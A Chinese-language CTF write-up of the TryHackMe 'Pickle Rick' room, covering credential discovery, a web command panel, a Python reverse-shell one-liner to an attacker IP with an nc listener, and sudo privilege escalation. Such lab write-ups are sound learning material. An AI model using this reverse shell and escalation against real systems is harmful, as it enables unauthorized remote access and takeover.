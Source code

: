 ```yaml
---
title: Tryhackme-easy-Pickle Rick
slug: tryhackmeeasypickle-rick-1vlraf
url: /post/tryhackmeeasypickle-rick-1vlraf.html
date: '2024-08-14 14:08:26+08:00'
lastmod: '2025-05-07 21:28:57+08:00'
toc: true
categories:
  - penetration
isCJKLanguage: true
---
```

日常练习
<!--more-->
# Tryhackme-easy-Pickle Rick

# 前言

一个简单靶场，kali环境有些小问题，这次是windows下做的

A Rick and Morty CTF. Help turn Rick back into a human!

# 过程

首先给出一个页面

```plain
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

很明显提示说使用burpsuite

通过抓包得到一条提示信息

```plain
Note to self, remember username!
Username: R1ckRul3s
```

先使用扫描存在的端口，发现存在了两个开放端口

```plain
2024/2/23 23:27:09    开始扫描...
10.10.242.108:22
10.10.242.108:80
```

然后来扫一下目录

```plain
login.php
robots.txt
```

在robots.txt下发现存在字符串，当作密码

```plain
Wubbalubbadubdub
```

login.php尝试登录，登陆后成功跳转portal.php

存在一个可能是命令执行的窗口，ls后查看

```plain
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

访问Sup3rS3cretPickl3Ingred.txt，得到第一个flag

在clue.txt发现一段话

```plain
Look around the file system for the other ingredient.
```

denied.php禁止访问

开始反弹shell

```plain
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.71.162 ",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```plain
nc -nlvp 1234
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-RbVJ34EyWQNHPaT-20250507212942-z1wnbo1.png)​

成功反弹后进行提权操作

```plain
sudo -l
```

发现当前甚至没有设置基础密码

```plain
Matching Defaults entries for www-data on ip-10-10-242-108.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-242-108.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```plain
sudo su
```

成功提权

然后查找相应的两个flag

```plain
cat "second ingredients"
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-tmTeXNpjWKaqfEy-20250507212942-3m2rzro.png)​

```plain
cat ./3rd.txt
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-H7wTqBGDkIljEb8-20250507212943-hhsc68q.png)​

‍
